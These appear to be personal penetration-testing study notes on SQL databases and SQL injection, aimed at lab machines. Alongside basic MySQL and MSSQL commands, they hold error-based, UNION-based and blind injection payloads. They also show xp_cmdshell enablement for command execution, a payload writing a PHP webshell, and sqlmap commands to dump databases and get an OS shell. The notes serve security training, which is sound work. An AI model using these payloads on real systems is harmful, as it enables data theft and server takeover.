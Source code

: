 SQL is for relational databases: a database with tables, columns and rows.

For automatic functionality, SQL queries are often worked into the (backend) source code.

In some cases, user input is inserted directly into the SQL query. This may be abused by the user inputting snippets of SQL in such a way that data may be exposed.

## MySQL

To connect to an SQL instance:

```bash
mysql -u root -p'<USERNAME>' -h <TARGET_IP> -P 3306
```

You can run commands such as:
```mysql
select version();
```
```mysql
select system_user();
```

To show all databases use
```mysql
show databases;
```

To select a user and some details:
```mysql
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```

<details>
  <summary>Some fundamental MySQL commands to navigate and interact with the database</summary>
<div class="markdown prose w-full break-words dark:prose-invert light"><p>Courtesy of ChatGPT - Below are some basic MySQL commands to help you navigate through the database:</p><h3>Show Databases</h3><p>To display a list of available databases, use the following command:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">SHOW</span> DATABASES;
</code></div></div></pre><h3>Select a Database</h3><p>To switch to a specific database, use the <code>USE</code> command:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql">USE database_name;
</code></div></div></pre><p>Replace <code>database_name</code> with the name of the database you want to select.</p><h3>Show Tables</h3><p>To view the tables within the currently selected database, use:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">SHOW</span> TABLES;
</code></div></div></pre><h3>Describe a Table</h3><p>To get information about the columns in a specific table, you can use the <code>DESCRIBE</code> or <code>DESC</code> command:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">DESCRIBE</span> table_name;
</code></div></div></pre><p>Replace <code>table_name</code> with the name of the table you want to describe.</p><h3>Select Data from a Table</h3><p>To retrieve data from a table, use the <code>SELECT</code> statement:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">SELECT</span> <span class="hljs-operator">*</span> <span class="hljs-keyword">FROM</span> table_name;
</code></div></div></pre><p>Replace <code>table_name</code> with the name of the table you want to query. You can customize the query to fetch specific columns or apply conditions as needed.</p><h3>Filter Data with WHERE Clause</h3><p>To filter the results based on certain conditions, use the <code>WHERE</code> clause in the <code>SELECT</code> statement:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">SELECT</span> <span class="hljs-operator">*</span> <span class="hljs-keyword">FROM</span> table_name <span class="hljs-keyword">WHERE</span> column_name <span class="hljs-operator">=</span> <span class="hljs-string">'value'</span>;
</code></div></div></pre><p>Replace <code>column_name</code> with the name of the column you want to filter, and <code>'value'</code> with the specific value you're looking for.</p><h3>Insert Data into a Table</h3><p>To add new records to a table, use the <code>INSERT INTO</code> statement:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">INSERT</span> <span class="hljs-keyword">INTO</span> table_name (column1, column2, column3) <span class="hljs-keyword">VALUES</span> (<span class="hljs-string">'value1'</span>, <span class="hljs-string">'value2'</span>, <span class="hljs-string">'value3'</span>);
</code></div></div></pre><p>Replace <code>table_name</code> with the name of the table, and specify the column names and corresponding values.</p><h3>Update Data in a Table</h3><p>To modify existing records in a table, use the <code>UPDATE</code> statement:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">UPDATE</span> table_name <span class="hljs-keyword">SET</span> column_name <span class="hljs-operator">=</span> <span class="hljs-string">'new_value'</span> <span class="hljs-keyword">WHERE</span> <span class="hljs-keyword">condition</span>;
</code></div></div></pre><p>Replace <code>column_name</code> with the name of the column you want to update, <code>'new_value'</code> with the new value, and <code>condition</code> with the condition to identify the rows to be updated.</p><h3>Delete Data from a Table</h3><p>To remove records from a table, use the <code>DELETE FROM</code> statement:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">DELETE</span> <span class="hljs-keyword">FROM</span> table_name <span class="hljs-keyword">WHERE</span> <span class="hljs-keyword">condition</span>;
</code></div></div></pre><p>Replace <code>condition</code> with the criteria to identify the rows to be deleted.</p><p>These are some fundamental MySQL commands to help you get started with navigating and interacting with a MySQL database.</p></div>
</details>

## MSSQL

To authenticate over MSSQL, you can use SQLCMD on Windows, or Impacket for Kali

```mssql
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
To see OS version:
```mssql
SELECT @@version;
```
To list all available DBs (master, tempdb, model, and msdb are default databases):
```mssql
SELECT name FROM sys.databases;
```
To review a DB:
```mssql
SELECT * FROM <DB_NAME>.information_schema.tables;
```
Now you can inspect whatever tables you want:
```mssql
select * from <DB_NAME>.dbo.<TABLE_NAME>;
```

## Manual SQL Exploitation

SQL injection is considered in-band when the vulnerable application provides the result of the query along with the application-returned value.

### Identifying SQLi via Error-based Payloads

Payload:
```sql
<STRING>' OR 1=1 -- //
```
so that you end the query and provide an always true statement, and comment out the rest of the SQL query

Sometimes, special characters such as `'` will give an SQL error (almost never happens irl)

By prematurely terminating the SQL query again, you can interject arbitrary SQL statements, e.g.:
```mysql
' or 1=1 in (select @@version) -- //
```

```mysql
' OR 1=1 in (SELECT * FROM users) -- //
```

```mysql
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

## Union-based Payloads

UNION is used to add an extra query, so you can select to queries into 1 SQL statement. 2 conditions:
1. The injected UNION query has to include the same number of columns as the original query.
2. The data types need to be compatible between each column.

This means that we should first figure out how many columns there are in the table. You can do this by using the following payload and increasing it by 1 each time:
```mysql
' ORDER BY 1-- //
```
This will order the results by column 1. You'll get an error whenever a column number does not exist.

Once we know that a table has e.g. 5 columns, we can continue to enumerate:
```mysql
%' UNION SELECT database(), user(), @@version, null, null -- //
```
You need to provide 5 values (database, user, version, null, null) if there are 5 columns.

If this does not return all values, try reordering the values (e.g. null, null, database, user, version)

Now, we can enumerate further. For example, we can try to enumerate the _information_schema.columns_ table to get info about all columns in all tables within a database
```mysql
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
This will give the table names and column names in the current database.

Now we can request this information, e.g.:
```mysql
' UNION SELECT null, username, password, description, null FROM users -- //
```

### Blind SQL Injections
Blind SQL injection occurs when the response of the database is never returned to the user, but we can infer the behaviour of the database using boolean/time-based logic.

Boolean-based:

E.g.:
```mysql
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```
This will return values only if the user is present. This way, we can enumerate the entire database for other usernames.

We can do this in the same way with a time-based SQLi payload:
```mysql
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```
If the user is present, the application will hang for about 3 seconds. If the user is not present, it will not hang.


## Manual and Automated Code Executions

### Manual Code Execution
On Microsoft SQL Server, we can hopefully enable the xp_cmdshell function for code execution:

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```` 
```mssql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
Now we can execute commands using:
```mssql
EXECUTE xp_cmdshell 'whoami';
```
Now, we can upgrade our shell to a more regular reverse shell.

For MySQL, we can use the SELECT INTO_OUTFILE statement to write files. We can write a webshell!
```mysql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
We need to provide the command in the URL like so: 192.168.120.19/tmp/webshell.php?cmd=whoami

### Automating the Attack
`sqlmap`!

E.g.:
```bash
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
```
To check if vulnerable. This provides a dummy value for the `user` parameter and specifies that parameter as the one to test using `-p user`.

To dump the database, we can use `--dump`

You can use sqlmap to get a shell using `--os-shell`. Preferably don't use this with time-based SQLi payloads.

For a POST request, we can do the following:
1. Intercept a POST request using Burp and save it.
2. Use this POST request as an argument for sqlmap and provide some extra info:
```bash
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```
- -r for request file
- -p for the parameter to test
- --web-root for web sever document root directory
- --os-shell to prompt for an interactive shell
3. Provide extra info:
  - Web app language (ASP, ASPX, JSP, PHP)
  - 









